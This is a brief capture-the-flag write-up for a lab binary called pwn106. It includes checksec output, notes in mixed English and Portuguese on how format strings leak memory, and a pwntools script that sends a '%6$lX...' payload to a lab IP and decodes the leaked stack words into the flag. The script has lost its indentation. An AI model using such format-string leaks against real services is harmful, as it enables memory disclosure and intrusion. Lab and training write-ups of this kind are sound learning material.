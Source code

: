 
Format String vulnerability


Command file 

```
file pwn106user.pwn106-user 
pwn106user.pwn106-user: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=60a1dfa10c02bcc6d113cb752053893ac9e2f4f1, for GNU/Linux 3.2.0, not stripped
```

Command checksec:

```
hecksec --file=pwn106user.pwn106-user 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   49 Symbols        No    0               2               pwn106user.pwn106-user

```

exploit:

-  format string  vulnerability by oproviding a format specifer
	- %X

leak memory how can read memory by abusing a format string vulnerabilities

- Perform arbitrary memory 
- RDI, RSI,RDX, RCX,R8,R9, then stack
- %lX %lX %lX %lX %lX %lX %lX %lX %lX %lX %lX %lX %lX 
- para dar lick da memoria usas numero$ para dicar o innde do array de cima
- %100$lX asssim em todos os elementos da do array de cima


exploit 

```python

from pwn import *

  

context.binary = binary = "./pwn106user.pwn106-user"

  

payload = "%6$lX.%7$lX.%8$lX.%9$lX.%10$lX.%11$lX"

  
  

p = remote("10.10.134.181", 9006)

#p = process()

p.recv()

p.recv()

p.sendline(payload)

output = p.recv().strip().split(b" ")[1].split(b".")

#print(p.recvall())

flag = ""

for word in output:

flag += bytes.fromhex(word.decode("utf-8"))[::-1].decode("utf-8")

  

print("the flag is: {}".format(flag))
```